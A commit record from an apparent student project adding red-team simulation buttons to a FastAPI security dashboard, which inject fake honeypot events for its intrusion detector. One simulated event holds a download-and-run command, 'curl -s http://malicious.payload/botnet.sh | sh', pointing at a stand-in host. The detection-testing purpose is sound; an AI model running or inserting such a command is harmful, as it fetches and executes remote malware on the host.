

Before and after one commit to kapi272/Final-project, a FastAPI app: page / in a window 1280 px wide. Shown: the part 196-870 px from the top of the page. Before the commit the page ends 787 px from the top, so only its background shows below. Run offline with FastAPI, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post"); data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
feat: add on-demand adversary simulation controls to SOC dashboard (Option A)

```diff
--- a/controller/api/routes.py
+++ b/controller/api/routes.py
@@ -9,6 +9,7 @@ from pydantic import BaseModel, Field
 
 from controller.api.sse_broker import SSEBroadcaster
 from controller.core.detector import IntrusionDetector
+from controller.core.models import CowrieEvent
 from controller.mitigation.quarantine import QuarantineManager
 
 logger = logging.getLogger(__name__)
@@ -191,3 +192,84 @@ async def restore_node_container(node_id: str, request: Request) -> Dict[str, An
     })
 
     return make_response(data=res, message=f"Container {node_id} restored to production.")
+
+
+@router.post("/simulate/attack/brute-force")
+async def trigger_simulated_bruteforce(request: Request) -> Dict[str, Any]:
+    """Triggers an automated credential brute-force attack simulation on demand."""
+    detector = get_detector(request)
+    broadcaster = get_broadcaster(request)
+    attacker_ip = "198.51.100.99"
+    events_triggered = 0
+
+    for i in range(5):
+        event = CowrieEvent(
+            eventid="cowrie.login.failed",
+            src_ip=attacker_ip,
+            timestamp=time.time(),
+            username="root",
+            password=f"admin_pass_{i}",
+            message=f"login attempt [root/admin_pass_{i}] failed",
+            raw_data={"simulated": True}
+        )
+        await broadcaster.broadcast("honeypot_hit", event.to_dict())
+        detector.process_event(event)
+        events_triggered += 1
+        await asyncio.sleep(0.05)
+
+    return make_response(
+        data={"target_ip": attacker_ip, "events_sent": events_triggered},
+        message=f"Brute-force attack simulation completed for IP {attacker_ip}."
+    )
+
+
+@router.post("/simulate/attack/exploit")
+async def trigger_simulated_exploit(request: Request) -> Dict[str, Any]:
+    """Triggers a critical remote shell exploit simulation on demand."""
+    detector = get_detector(request)
+    broadcaster = get_broadcaster(request)
+    attacker_ip = "203.0.113.88"
+    cmd = "curl -s http://malicious.payload/botnet.sh | sh"
+
+    event = CowrieEvent(
+        eventid="cowrie.command.input",
+        src_ip=attacker_ip,
+        timestamp=time.time(),
+        input_command=cmd,
+        message=f"CMD: {cmd}",
+        raw_data={"simulated": True}
+    )
+    await broadcaster.broadcast("honeypot_hit", event.to_dict())
+    detector.process_event(event)
+
+    return make_response(
+        data={"target_ip": attacker_ip, "command": cmd},
+        message=f"Terminal exploit simulation completed for IP {attacker_ip}."
+    )
+
+
+@router.post("/simulate/attack/port-sweep")
+async def trigger_simulated_port_sweep(request: Request) -> Dict[str, Any]:
+    """Triggers a rapid port reconnaissance sweep simulation on demand."""
+    detector = get_detector(request)
+    broadcaster = get_broadcaster(request)
+    attacker_ip = "198.51.100.77"
+    events_triggered = 0
+
+    for i in range(5):
+        event = CowrieEvent(
+            eventid="cowrie.client.version",
+            src_ip=attacker_ip,
+            timestamp=time.time(),
+            message=f"Remote SSH version: SSH-2.0-Attacker_Probe_{i}",
+            raw_data={"simulated": True}
+        )
+        await broadcaster.broadcast("honeypot_hit", event.to_dict())
+        detector.process_event(event)
+        events_triggered += 1
+        await asyncio.sleep(0.05)
+
+    return make_response(
+        data={"target_ip": attacker_ip, "events_sent": events_triggered},
+        message=f"Reconnaissance sweep simulation completed for IP {attacker_ip}."
+    )
--- a/controller/static/app.js
+++ b/controller/static/app.js
@@ -54,15 +54,15 @@ document.addEventListener("DOMContentLoaded", () => {
     }
 
     // Add or update row in live mitigation table
-    function addMitigationRow(record) {
-        // If row with this IP already exists, remove it first
-        const existingRow = document.getElementById(`row-ip-${record.src_ip.replace(/[^a-zA-Z0-9]/g, '_')}`);
+    function addMitigationRow(record, prepend = true) {
+        const rowKey = record.id ? `row-id-${record.id}` : `row-ip-${record.src_ip.replace(/[^a-zA-Z0-9]/g, '_')}`;
+        const existingRow = document.getElementById(rowKey);
         if (existingRow) {
             existingRow.remove();
         }
 
         const tr = document.createElement("tr");
-        tr.id = `row-ip-${record.src_ip.replace(/[^a-zA-Z0-9]/g, '_')}`;
+        tr.id = rowKey;
         tr.className = "border-b border-slate-800/80 hover:bg-slate-800/40 transition-colors";
 
         // Timestamp
@@ -74,13 +74,13 @@ document.addEventListener("DOMContentLoaded", () => {
         // Action badge
         const tdAction = document.createElement("td");
         tdAction.className = "px-4 py-2";
-        const actionBadge = createSafeElement(
-            "span",
-            record.action || "IPTABLES_DROP",
-            record.action === "UNBAN"
-                ? "px-2 py-0.5 rounded text-[10px] font-bold tracking-wider uppercase bg-emerald-950/60 border border-emerald-800 text-emerald-400"
-                : "px-2 py-0.5 rounded text-[10px] font-bold tracking-wider uppercase bg-rose-950/60 border border-rose-800 text-rose-400"
-        );
+        let badgeClass = "px-2 py-0.5 rounded text-[10px] font-bold tracking-wider uppercase bg-rose-950/60 border border-rose-800 text-rose-400";
+        if (record.action === "UNBAN") {
+            badgeClass = "px-2 py-0.5 rounded text-[10px] font-bold tracking-wider uppercase bg-emerald-950/60 border border-emerald-800 text-emerald-400";
+        } else if (record.action === "RESET_ALL_BANS") {
+            badgeClass = "px-2 py-0.5 rounded text-[10px] font-bold tracking-wider uppercase bg-amber-950/60 border border-amber-800 text-amber-400";
+        }
+        const actionBadge = createSafeElement("span", record.action || "IPTABLES_DROP", badgeClass);
         tdAction.appendChild(actionBadge);
 
         // Reason
@@ -101,7 +101,11 @@ document.addEventListener("DOMContentLoaded", () => {
         tr.appendChild(tdReason);
         tr.appendChild(tdControls);
 
-        mitigationTableBody.insertBefore(tr, mitigationTableBody.firstChild);
+        if (prepend && mitigationTableBody.firstChild) {
+            mitigationTableBody.insertBefore(tr, mitigationTableBody.firstChild);
+        } else {
+            mitigationTableBody.appendChild(tr);
+        }
     }
 
     // Update node topology card UI
@@ -138,10 +142,10 @@ document.addEventListener("DOMContentLoaded", () => {
                     }
                 }
 
-                // Pre-populate mitigation rows
+                // Pre-populate mitigation rows in descending order
                 if (payload.recent_mitigations) {
                     mitigationTableBody.innerHTML = "";
-                    payload.recent_mitigations.forEach(addMitigationRow);
+                    payload.recent_mitigations.forEach(r => addMitigationRow(r, false));
                 }
             }
         } catch (e) {
@@ -290,6 +294,44 @@ document.addEventListener("DOMContentLoaded", () => {
         }
     };
 
+    // Wire Option A: Red Team Adversary Simulation Triggers
+    window.triggerAttack = async function(attackType) {
+        const btnId = `btn-attack-${attackType.replace(/[^a-zA-Z0-9]/g, '')}`;
+        const btn = document.getElementById(btnId);
+        const originalContent = btn ? btn.innerHTML : "";
+
+        if (btn) {
+            btn.disabled = true;
+            btn.innerHTML = `<span class="animate-spin mr-1">⚙️</span> Launching ${attackType}...`;
+            btn.classList.add("opacity-75");
+        }
+
+        appendTerminalLog("ADVERSARY", `Initiating ${attackType.toUpperCase()} intrusion attack simulation...`, "warning");
+
+        try {
+            const res = await fetch(`/api/simulate/attack/${attackType}`, {
+                method: "POST",
+                headers: { "Content-Type": "application/json" }
+            });
+            const data = await res.json();
+            if (data.status === "success") {
+                appendTerminalLog("ADVERSARY", `Simulation payload delivered: ${data.message}`, "threat");
+            } else {
+                appendTerminalLog("ADVERSARY", `Simulation request error: ${data.message}`, "warning");
+            }
+        } catch (err) {
+            appendTerminalLog("ADVERSARY", `Network error triggering simulation: ${err}`, "threat");
+        } finally {
+            setTimeout(() => {
+                if (btn) {
+                    btn.disabled = false;
+                    btn.innerHTML = originalContent;
+                    btn.classList.remove("opacity-75");
+                }
+            }, 1000);
+        }
+    };
+
     // Initialize
     fetchInitialStatus();
     connectSSE();
--- a/controller/templates/index.html
+++ b/controller/templates/index.html
@@ -157,6 +157,61 @@
             </div>
         </section>
 
+        <!-- Adversary Intrusion Simulation Controls (Red Team Trigger Toolbar) -->
+        <section class="bg-slate-900/90 border border-slate-800 rounded-lg p-5 shadow-sm space-y-3">
+            <div class="flex items-center justify-between pb-3 border-b border-slate-800/80">
+                <div class="flex items-center space-x-2">
+                    <span class="w-2.5 h-2.5 rounded-full bg-amber-500 shadow-sm shadow-amber-500/50 animate-pulse"></span>
+                    <h2 class="text-sm font-bold text-white uppercase tracking-wider">Adversary Intrusion Simulation (Red Team Controls)</h2>
+                </div>
+                <span class="text-xs font-mono text-slate-400">Click a vector to trigger closed-loop detection & autonomous mitigation</span>
+            </div>
+
+            <div class="grid grid-cols-1 md:grid-cols-3 gap-4 pt-1">
+                <!-- Trigger 1: Credential Brute-Force -->
+                <div class="p-3.5 rounded bg-slate-950/70 border border-slate-800/90 hover:border-slate-700 flex flex-col justify-between transition-all">
+                    <div>
+                        <div class="flex items-center justify-between mb-1.5">
+                            <span class="text-xs font-bold text-slate-200">Credential Brute-Force</span>
+                            <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-amber-950/60 border border-amber-800 text-amber-400">PORT 2222</span>
+                        </div>
+                        <p class="text-[11px] text-slate-400 mb-3">5 rapid failed SSH logins from <code class="text-slate-300 font-mono">198.51.100.99</code>. Exceeds frequency threshold.</p>
+                    </div>
+                    <button id="btn-attack-bruteforce" onclick="triggerAttack('brute-force')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-amber-950/40 hover:bg-amber-900 border border-amber-800 hover:border-amber-700 text-amber-300 transition-all flex items-center justify-center space-x-2">
+                        <span>⚡ Trigger Brute-Force</span>
+                    </button>
+                </div>
+
+                <!-- Trigger 2: Remote Terminal Exploit -->
+                <div class="p-3.5 rounded bg-slate-950/70 border border-slate-800/90 hover:border-slate-700 flex flex-col justify-between transition-all">
+                    <div>
+                        <div class="flex items-center justify-between mb-1.5">
+                            <span class="text-xs font-bold text-slate-200">Terminal Exploit Injection</span>
+                            <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-rose-950/60 border border-rose-800 text-rose-400">CRITICAL</span>
+                        </div>
+                        <p class="text-[11px] text-slate-400 mb-3">Remote command injection (<code class="text-slate-300 font-mono">curl | sh</code>) from <code class="text-slate-300 font-mono">203.0.113.88</code>.</p>
+                    </div>
+                    <button id="btn-attack-exploit" onclick="triggerAttack('exploit')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-rose-950/40 hover:bg-rose-900 border border-rose-800 hover:border-rose-700 text-rose-300 transition-all flex items-center justify-center space-x-2">
+                        <span>🔥 Trigger Terminal Exploit</span>
+                    </button>
+                </div>
+
+                <!-- Trigger 3: Port Reconnaissance Sweep -->
+                <div class="p-3.5 rounded bg-slate-950/70 border border-slate-800/90 hover:border-slate-700 flex flex-col justify-between transition-all">
+                    <div>
+                        <div class="flex items-center justify-between mb-1.5">
+                            <span class="text-xs font-bold text-slate-200">Port Reconnaissance Sweep</span>
+                            <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-sky-950/60 border border-sky-800 text-sky-400">PROBES</span>
+                        </div>
+                        <p class="text-[11px] text-slate-400 mb-3">Rapid TCP reconnaissance sweep from <code class="text-slate-300 font-mono">198.51.100.77</code> across virtual subnet.</p>
+                    </div>
+                    <button id="btn-attack-portsweep" onclick="triggerAttack('port-sweep')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-sky-950/40 hover:bg-sky-900 border border-sky-800 hover:border-sky-700 text-sky-300 transition-all flex items-center justify-center space-x-2">
+                        <span>📡 Trigger Port Sweep</span>
+                    </button>
+                </div>
+            </div>
+        </section>
+
         <!-- Split View: Mitigation Table & Live Terminal -->
         <div class="grid grid-cols-1 lg:grid-cols-12 gap-6">
 
```
Also changed, not shown: context/progress-tracker.md (+3 -2 lines), tests/test_api_endpoints.py (+24 -0 lines).
